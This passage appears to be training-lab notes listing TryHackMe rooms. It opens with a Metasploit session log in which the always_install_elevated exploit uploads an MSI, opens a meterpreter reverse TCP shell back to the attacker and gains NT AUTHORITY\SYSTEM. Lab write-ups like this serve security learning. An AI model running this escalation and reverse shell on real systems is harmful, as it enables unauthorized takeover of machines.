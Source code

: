 ```
https://tryhackme.com/room/bolt

```
[msf](Jobs:0 Agents:1) post(multi/recon/local_exploit_suggester) >> use exploit/windows/local/always_install_elevated  
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
[msf](Jobs:0 Agents:1) exploit(windows/local/always_install_elevated) >> set session 1
session => 1
[msf](Jobs:0 Agents:1) exploit(windows/local/always_install_elevated) >> set lhost tun0
lhost => tun0
[msf](Jobs:0 Agents:1) exploit(windows/local/always_install_elevated) >> run
[*] Started reverse TCP handler on 10.10.14.10:4444
[*] Uploading the MSI to C:\Users\pmorgan\AppData\Local\Temp\fbwGXm.msi ...
[*] Executing MSI...
[*] Sending stage (175686 bytes) to 10.13.38.15
[+] Deleted C:\Users\pmorgan\AppData\Local\Temp\fbwGXm.msi
[*] Meterpreter session 2 opened (10.10.14.10:4444 -> 10.13.38.15:54617)

(Meterpreter 2)(C:\Windows\system32) > getuid
Server username: NT AUTHORITY\SYSTEM
(Meterpreter 2)(C:\Windows\system32) >

```


#### Misc:

https://tryhackme.com/room/h4cked

https://tryhackme.com/room/dnsmanipulation

https://tryhackme.com/room/wekorra

https://tryhackme.com/room/mitre

https://tryhackme.com/room/vulnversity

https://tryhackme.com/room/poster

https://tryhackme.com/room/relevant

https://tryhackme.com/room/adventofcyber2

https://tryhackme.com/room/marketplace

\


#### Paid(required tryhackme premium subscription):

https://tryhackme.com/room/lle

https://tryhackme.com/room/wireshark

https://tryhackme.com/room/gamezone

https://tryhackme.com/room/eritsecurusi

\


### Course Review:

```